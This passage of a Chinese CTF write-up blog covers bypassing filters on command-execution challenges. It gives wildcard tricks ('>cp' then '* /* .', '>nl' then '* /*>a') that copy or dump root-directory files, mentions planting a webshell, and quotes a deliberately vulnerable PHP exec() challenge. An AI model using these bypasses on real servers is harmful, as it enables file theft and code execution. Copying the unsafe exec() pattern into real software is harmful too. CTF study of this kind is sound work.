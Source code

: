 然后尝试访问/tmp/a，服务器没有报错，说明`>a`其实是执行成功了的。

- 解法1

  ```shell
  >cp
  * /* .
  ```

  第一条命令创建一个文件名为cp的文件

  第二条命令执行`cp /* .`，将根目录下的文件复制到当前目录下，然后访问/tmp/flag即可

  ![image-20221107113239425](F:/知识库/blog/source/_posts/images/image-20221107113239425.png)

- 解法2

  ```shell
  >nl
  * /*>a
  ```

  第一条命令创建一个文件名为nl的文件

  第二条命令执行`nl /*>a`，读取根目录下所有文件的内容重定向到a中，然后访问/tmp/a即可

  ![image-20221107113608245](F:/知识库/blog/source/_posts/images/image-20221107113608245.png)

- 解法3

  脚本直接写🐎







### 无数字绕过

安洵杯2020[Web-Bash-Vino0o0o]

```php
<?php
highlight_file(__FILE__);
if(isset($_POST["cmd"]))
{
    $test = $_POST['cmd'];
    $white_list = str_split('${#}\\(<)\'0'); 
    $char_list = str_split($test);
    foreach($char_list as $c){
        if(!in_array($c,$white_list)){
                die("Cyzcc");
            }
        }
    exec($test);
}
?>
```
